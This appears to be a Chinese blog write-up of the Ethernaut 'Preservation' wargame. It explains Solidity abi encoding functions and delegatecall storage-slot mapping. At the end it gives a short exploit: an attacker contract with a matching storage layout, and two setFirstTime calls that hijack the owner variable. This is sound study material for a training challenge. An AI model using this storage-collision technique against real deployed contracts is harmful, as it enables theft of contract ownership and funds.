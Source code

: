 ```yaml
---
title: Ethernaut - Preservation
categories: [Ethernaut]
tags: [以太坊, 智能合约, Ethernaut]
date: 2024-12-23
---
```


核心是里用 delegatecall 来进行攻击。

首先需要补充一下 abi 的各个函数的作用。

<!--more-->

# abi模块

图片中列出的 `abi` 模块的方法是 Solidity 和 EVM 编码中常用的方法，主要用于对数据的编码和解码。以下是它们的作用解释：

### 1. **`abi.decode`**

- **作用**: 用于解码通过 ABI 编码的字节数据。

- **签名**: `decode(bytes encodedData, (...)) returns (...)`

- **使用场景**: 如果你从合约中获取了编码的字节数据（如 `bytes` 类型），你可以用 `abi.decode` 来还原它为原始的数据类型。

- 示例:

    ```solidity
    bytes memory data = abi.encode("Hello", 123);
    (string memory str, uint256 num) = abi.decode(data, (string, uint256));
    ```

------

### 2. **`abi.encode`**

- **作用**: 对数据进行 ABI 编码，返回一个字节数组。

- **签名**: `encode(...) returns (bytes)`

- **使用场景**: 在 Solidity 中生成适合合约交互的输入数据，或创建自定义的数据格式。

- 示例:

    ```solidity
    bytes memory data = abi.encode("Hello", 123);
    // data 包含两个参数编码后的字节数据
    ```

------

### 3. **`abi.encodeCall`**

- **作用**: 对函数调用进行编码，包含函数选择器和参数。

- **签名**: `encodeCall(function, (...)) returns (bytes)`

- **使用场景**: 用于准备合约方法调用的字节数据，适合低层次合约调用（如 `call`）。

- 示例:

    ```solidity
    bytes memory data = abi.encodeCall(myContract.myFunction, (arg1, arg2));
    ```

------

### 4. **`abi.encodePacked`**

- **作用**: 进行紧凑编码，不包含 32 字节对齐填充。

- **签名**: `encodePacked(...) returns (bytes)`

- **使用场景**: 用于生成哈希（如 `keccak256`）或减少存储占用，但需小心避免哈希碰撞。

- 示例:

    ```solidity
    bytes memory packed = abi.encodePacked("Hello", uint8(123));
    ```

------

### 5. **`abi.encodeWithSelector`**

- **作用**: 对函数选择器和参数进行编码，返回包含函数选择器的字节数据。

- **签名**: `encodeWithSelector(bytes4 selector, (...)) returns (bytes)`

- **使用场景**: 手动设置函数选择器并编码数据，用于合约交互。

- 示例:

    ```solidity
    bytes memory data = abi.encodeWithSelector(myContract.myFunction.selector, arg1, arg2);
    ```

------

### 6. **`abi.encodeWithSignature`**

- **作用**: 根据函数签名和参数进行编码，返回包含函数选择器的字节数据。

- **签名**: `encodeWithSignature(string signature, (...)) returns (bytes)`

- **使用场景**: 当函数签名已知时，用于生成与目标合约交互所需的编码数据。

- 示例:

    ```solidity
    bytes memory data = abi.encodeWithSignature("myFunction(uint256,string)", 123, "Hello");
    ```

------

### 区别总结：

| **函数**                  | **主要用途**                              | **是否包含函数选择器** |
| ------------------------- | ----------------------------------------- | ---------------------- |
| `abi.decode`              | 解码数据                                  | 不适用                 |
| `abi.encode`              | 标准 ABI 编码                             | 否                     |
| `abi.encodeCall`          | 函数调用编码（函数选择器 + 参数）         | 是                     |
| `abi.encodePacked`        | 紧凑编码（无 32 字节对齐）                | 否                     |
| `abi.encodeWithSelector`  | 自定义函数选择器编码（函数选择器 + 参数） | 是                     |
| `abi.encodeWithSignature` | 使用函数签名直接编码（函数选择器 + 参数） | 是                     |





# delegatecall如何对应存储？

delegatecall不是不会切换上下文嘛，就是如果调用的函数里设置了一个Storage，但是修改的是调用合约对应的Storage。我有个问题，比如目标函数里修改了storedTime这个Storage，调用函数怎么找到对应的Storage？



- Solidity 合约中的状态变量会映射到特定的存储槽（Storage Slots），这些存储槽是根据变量声明的顺序确定的。
- 当目标函数通过 delegatecall 被调用时，所有的存储访问（读或写）都会指向调用合约的存储槽，而不是目标合约的存储槽。



存储槽式通过偏移量来确定的。所以，delegatecall的目标合约，必须和调用合约的内存分布完全一致！



这个题的问题就找到了。

```solidity
contract Attack {
    address public timeZone1Library;
    address public timeZone2Library;
    address public owner;
    uint256 storedTime;

    function setTime(uint256 _time) public {
        owner = msg.sender;
    }
}
```

然后调用两次 setFirstTime，第一次把timeZone1Library设置为攻击合约，第二次用攻击合约修改owner。

```js
await contract.setFirstTime(AttackContract.address)
await contract.setFirstTime(AttackContract.address)
```


